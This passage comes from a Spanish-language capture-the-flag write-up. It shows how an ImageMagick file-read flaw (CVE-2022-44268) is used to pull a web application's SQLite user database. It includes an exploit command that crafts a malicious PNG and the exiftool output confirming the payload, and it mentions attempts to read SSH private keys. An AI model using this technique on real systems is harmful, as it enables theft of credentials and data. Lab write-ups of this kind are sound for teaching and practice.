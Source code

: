 ### Information Leakage

Ahora que tenemos la capacidad de listar el contenido de archivos del sistema, deberemos de encontrar aquel archivo que nos pueda llegar a proporcionar información interesante.

En nuestro caso, se probaron de intentar obtener las credenciales privadas SSH (`id_rsa`) de usuarios, verificar archivos de configuración, etc pero no logramos obtener resultado.

Recordando que disponemos de los archivos de configuración de la aplicación web encontrados en el `/.git/`, nos encontramos que en el archivo `login.php` se indica la ubicación de la base de datos de `SQLite3` de los usuarios de la aplicación web.

Con lo cual, podríamos intentar verificar si podemos obtener el archivo de la base de datos y ver su contenido.

{% code title="loign.php" %}
```php
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));
```
{% endcode %}

Por lo tanto, en nuestra imagen de prueba `image.png`, le indicaremos que el archivo a leer sea el de la base de datos ubicada en `/var/db/pilgrimage` y se nos devuelva la imagen maliciosa con el nombre `gzzcoo.png`.

Verificamos que en el apartado de `Profile` de los metadatos de la imagen se ha indicado correctamente el archivo a obtener.

```bash
❯ python3 CVE-2022-44268.py --image image.png --file-to-read /var/db/pilgrimage --output gzzcoo.png

❯ exiftool gzzcoo.png
ExifTool Version Number         : 13.10
File Name                       : gzzcoo.png
Directory                       : .
File Size                       : 180 kB
File Modification Date/Time     : 2025:02:18 01:08:11+01:00
File Access Date/Time           : 2025:02:18 01:05:18+01:00
File Inode Change Date/Time     : 2025:02:18 01:08:11+01:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 640
Image Height                    : 480
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Profile                         : /var/db/pilgrimage
Image Size                      : 640x480
Megapixels                      : 0.307
```

